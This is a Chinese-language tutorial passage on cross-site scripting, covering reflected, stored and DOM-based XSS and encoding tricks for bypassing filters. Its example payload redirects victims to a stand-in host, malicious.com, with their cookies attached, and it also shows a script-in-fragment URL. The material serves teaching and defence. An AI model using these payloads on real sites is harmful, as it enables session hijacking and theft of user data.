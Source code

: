 ## 概述

跨站脚本攻击（XSS）是一种安全漏洞，攻击者通过在网页中注入恶意的客户端脚本（通常是JavaScript），当其他用户浏览该网页时，恶意脚本会在用户的浏览器中执行。攻击者可以利用XSS窃取用户信息（如Cookie）、劫持用户会话、进行钓鱼欺诈或执行其他恶意操作。通常需要构造代码来闭合原有的HTML标签，以便插入并执行脚本。

**示例 Payload:**

*   `<p>一些内容 123</p><script>window.location.href="http://malicious.com/?cookie="+document.cookie</script>` (闭合 `<p>` 标签后执行脚本)

## XSS 分类

主要分为以下三类：

### 1. 反射型 XSS (Reflected XSS)

*   **概述:** 最常见的类型。恶意脚本作为URL参数提交给服务器，服务器未经验证或充分编码，直接将脚本“反射”回用户的浏览器并在当前页面执行。
*   **流程:** 用户点击恶意链接 -> 服务器处理请求（包含恶意参数）-> 服务器响应将恶意代码嵌入HTML -> 用户浏览器执行恶意代码。
*   **特点:**
    *   非持久性，攻击代码不存储在服务器上。
    *   需要诱骗用户点击特制的URL。
    *   影响范围通常限于点击链接的用户。
*   **常见位置:** 搜索结果页、错误提示页、URL参数直接输出到页面的地方。

### 2. 存储型 XSS (Stored/Persistent XSS)

*   **概述:** 攻击者将恶意脚本提交并存储到目标服务器的数据库或文件中（如留言板、评论区、用户资料）。当其他用户访问包含这些存储数据的页面时，服务器将恶意脚本取出并发送给用户的浏览器执行。
*   **流程:** 攻击者提交含恶意脚本的数据 -> 服务器存储数据 -> 其他用户访问页面 -> 服务器从存储中读取含脚本的数据并发送给用户 -> 用户浏览器执行恶意代码。
*   **特点:**
    *   持久性，攻击代码存储在服务器端。
    *   危害性大，可影响所有访问该页面的用户。
    *   可能导致XSS蠕虫，在用户间传播。
*   **常见位置:** 论坛帖子、文章评论、用户留言、个人资料、私信等用户生成内容（UGC）的功能。

### 3. DOM 型 XSS (DOM-based XSS)

*   **概述:** 漏洞存在于客户端脚本（JavaScript）处理逻辑中。恶意代码不经过服务器，而是由浏览器端的JavaScript在修改DOM（文档对象模型）时直接从URL、`#`片段或其他DOM来源获取并执行。
*   **流程:** 用户点击恶意链接 (如 `http://site.com/page#<script>alert(1)</script>`) -> 浏览器加载页面 -> 页面中的合法JavaScript获取URL片段或参数 -> JavaScript未充分处理就将其写入DOM (如 `innerHTML`) -> 导致恶意脚本执行。
*   **特点:**
    *   攻击载荷可能不发送到服务器，难以被服务端检测。
    *   漏洞源于前端代码，防御主要靠前端安全实践。
    *   与反射型类似，通常需要用户点击恶意链接。
*   **绕过技巧:** HTML不区分大小写，可对URL和参数进行各种编码（如 `escape`, `encodeURI`, `encodeURIComponent`, 十六进制, 十进制, 八进制）尝试绕过过滤。

## XSS 攻击方式与目的

### 1. 常用攻击手段和目的
